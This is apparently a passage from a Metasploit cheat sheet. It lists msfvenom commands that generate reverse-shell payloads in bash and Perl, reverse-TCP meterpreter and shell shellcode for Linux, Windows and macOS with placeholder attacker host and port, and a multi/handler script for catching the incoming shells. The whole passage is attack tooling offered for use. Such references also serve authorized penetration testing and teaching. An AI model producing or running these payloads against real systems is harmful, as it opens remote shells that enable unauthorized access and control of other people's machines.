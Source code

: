  msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

# Perl 

 msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

# Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits. 

# Linux Based Shellcode 

 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Windows Based Shellcode 

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Mac Based Shellcode 

 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Handlers 

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
